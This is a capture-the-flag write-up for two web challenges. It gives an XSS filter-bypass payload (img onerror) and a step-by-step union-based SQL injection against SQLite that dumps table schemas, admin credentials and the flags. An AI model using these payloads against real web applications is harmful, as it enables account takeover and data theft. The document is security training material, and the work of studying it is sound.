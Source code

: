 # 1. Choosy
Description:
Single solution doesn't works on all problems. One should try different solutions for different problem.

link: http://20.193.247.209:8333/

Solution:
+ XSS detected
+ ` <image src/onerror=alert(1)>` this input gives xss
+ <script> tag is blacklisted
+ final payload:`"'><img src=xxx:x \x09onerror=javascript:alert(1)>
+ Flag: shellctf{50oom3_P4yL0aDS_aM0ng_Maaa4nnY}

  
# 2. Extractor
  
  Description: We are under emergency. Enemy is ready with its nuclear weapon we need to activate our gaurds but chief who had password is dead. There is portal at URL below which holds key within super-user account, can you get the key and save us.
  link: http://20.125.142.38:8956/

  Solution:
  + An sql injection challenge
  + we are provided with login and register functionality.
  + When we simply inserted `' or 1=1 --+` we got the following informations dumped.
   name: user
   password: pass123
  signature: nothing here
  
 + From this we can understand that its a basic sql injection challenge.
 + So, now lets try to know how many columns are there in the database
   query: `' union select 1,2,3,4 --+`
   output: name:2
           pass: 3
          signature: 4
+ Dump the sqlite version:
  query:` ' union select 1,sqlite_version(),3,4 --+`
  outptu: name: 3.27.2
          pass:3
          signature: 4
  
 + Now we need to get the table names:
   query: `' union select 1,group_concat(tbl_name),3,4 from sqlite_master where type='table' and tbl_name NOT LIKE 'sqlite_%' --+`
   output: name: Admin, users
            pass:3
            signature: 4
  
 + Column names of the table 'Admin':
  query: `' union select 1,sql,3,4 from sqlite_master where type!='meta' and sql NOT NULL and name not like 'sqlite_%' --+`
  output: name:CREATE TABLE Admins ( id INTEGER PRIMARY KEY AUTOINCREMENT, user TEXT NOT NULL, pass TEXT NOT NULL, content TEXT NOT NULL )
          pass: 3
          signature: 4
  
 +Now the values of the given columns: (user, pass,content)
  query: `' union select 1, user,pass,content from Admins --+`
  outptu: name: admin
          pass: h4rd_to_gu355
          signature: shellctf{Sql_1Nj3c7i0n_B45iC_XD}
  
 + So, here we got the flag!
  
  

  

